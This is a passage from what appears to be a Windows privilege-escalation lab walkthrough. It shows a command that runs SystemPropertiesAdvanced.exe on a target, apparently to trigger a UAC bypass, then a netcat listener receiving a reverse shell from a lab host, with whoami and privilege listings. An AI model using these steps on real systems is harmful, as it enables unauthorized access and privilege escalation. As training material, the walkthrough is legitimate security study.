 ```
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

13) Executing SystemPropertiesAdvanced.exe on Target Host

```
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

14) Receiving Connection Back

```
nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah


C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
```